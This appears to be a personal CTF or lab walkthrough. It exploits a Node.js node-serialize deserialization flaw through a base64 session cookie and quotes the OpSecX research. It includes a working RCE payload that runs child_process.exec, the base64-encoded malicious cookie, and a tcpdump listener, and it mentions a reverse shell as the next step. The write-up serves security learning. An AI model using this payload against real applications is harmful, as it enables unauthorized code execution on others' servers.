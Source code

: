 When i enter an email it gives me a cookie. That cookie looked like base64 so i put it into cyberchef:

![[Pasted image 20240719130706.png]]

I add in a string message and update the session cookie value:

![[Pasted image 20240719132255.png]]

![[Pasted image 20240719132312.png]]

It gets reflected back.

- blog post by OpSecX on exploiting Node.js deserialization: [https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)

![[Pasted image 20240719132506.png]]

#### **Building the Payload**
- by OpSecX

I have used node-serialize version 0.0.4 for this research. For successful exploitation, arbitrary code execution should occur when untrusted input is passed into `unserialize()` function. The best way to create a payload is to use the `serialize()` function of the same module.

I created the following JavaScript object and passed it to `serialize()` function.
```js
var y = {
 rce : function(){
 require('child_process').exec('ping -c <IP>', function(error, stdout, stderr) { console.log(stdout) });
 },
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

Install required modules
```php
sudo apt install nodejs
```

```php
sudo apt install npm
```

```php
npm install node-serialize
```

Serialize object
```php
node serial.js
```

That gives me an output similar to the email format i found earlier. I can then encode it to base64 and try it against the website.

```php
Serialized: 
{"rce":"_$$ND_FUNC$$_function(){\n require('child_process').exec('ping -c 10.9.0.241', function(error, stdout, stderr) { console.log(stdout) });\n }"}
```

Waiting for a ping back to our machine.
```php
sudo tcpdump -i tun0 icmp
```

I can now test the website and possibly get a reverse shell.

```php
eyJyY2UiOiJfJCRORF9GVU5DJCRfZnVuY3Rpb24oKXtcbiByZXF1aXJlKCdjaGlsZF9wcm9jZXNzJykuZXhlYygncGluZyAtYyAxMC45LjAuMjQxJywgZnVuY3Rpb24oZXJyb3IsIHN0ZG91dCwgc3RkZXJyKSB7IGNvbnNvbGUubG9nKHN0ZG91dCkgfSk7XG4gfSJ9
```

